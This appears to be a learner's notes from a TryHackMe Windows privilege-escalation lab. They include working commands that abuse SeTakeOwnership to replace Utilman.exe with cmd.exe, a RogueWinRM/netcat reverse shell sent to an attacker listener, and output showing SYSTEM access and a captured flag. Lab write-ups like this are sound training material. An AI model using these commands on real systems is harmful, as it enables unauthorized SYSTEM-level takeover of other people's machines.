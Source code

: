 Get the flag on the Administrator's desktop.
*THM{SEFLAGPRIVILEGE}*

``` (execute like admin pass TheWorldIsMine2022)
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

C:\Windows\system32>takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".

C:\Windows\system32>icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: C:\Windows\System32\Utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>copy cmd.exe utilman.exe
Overwrite utilman.exe? (Yes/No/All): Yes
        1 file(s) copied.
```

![[Pasted image 20220902112423.png]]

``` the 3 ways learned
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4442

c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.11.81.220 4442" (go to 10.10.12.124 and run)

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4442
listening on [any] 4442 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.12.124] 49823
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>more C:\Users\Administrator\Desktop\flag.txt
more C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}


```
